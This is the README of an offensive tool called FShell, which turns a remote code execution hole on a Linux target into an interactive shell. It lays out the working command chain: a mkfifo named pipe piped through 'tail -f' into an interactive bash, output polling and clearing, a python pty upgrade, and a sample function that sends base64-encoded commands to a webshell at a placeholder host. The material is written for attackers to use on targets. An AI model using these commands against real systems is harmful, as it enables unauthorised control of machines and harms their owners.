 
# **FShell**

## What is that
FShell is my own Forward Shell designed to get an interactive tty using remote code execution through a stageless protcol (eg HTTP).


## How it is working
The concepts behind this forward shell are pretty simple.

First you need to create a named pipe on the remote system, it will be used to send command to our tty ```mkfifo /tmp/input```.

Then, create a bash loop that read named pipe content, send it to bash and send the stdin & stderr to output file. ```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly in order to get output of commands. <br/>
If the thread find output, it will clear file content using ```echo '' > /tmp/output```<br/>
Tips: In order to avoid error logging of an non-existing file, we execute 'id' command before starting the thread to create the output file.

The final step is to get user input from our python script and sent it in the named pipe using that kind of command: ```echo USERCMD > /tmp/input```

**Final trick**
So, using this we get back a remote interactive shell but some command should not work because we have not a 'tty'.
The 'upgrade_shell' command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty by the current process (used in named pipe loop)


## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the targeted remote system
It is designed to target Linux OS only and require basic commands/tools on the remote system:
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill
- python (and pty module)

## Usage
You can change the ```WRITABLE_FOLDER``` variable if /tmp is not available or if you have something better (prefer /dev/shm if available)

You **must** redefine ```execute``` function to perform your remote code execution:

```python3
def execute(cmd, verbose=False, timeout=None)
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY /!\ Used to kill blocking exec loop (used in named pipe creation) in case you can't, put named pipe creation in separated thread
    :verbose  print full cmd execute on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Demo

![Demo](https://s2.gifyu.com/images/demo.gif)


# Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I wasn't knowing that something like this was possible before watching his videos !

Hope you enjoy it!

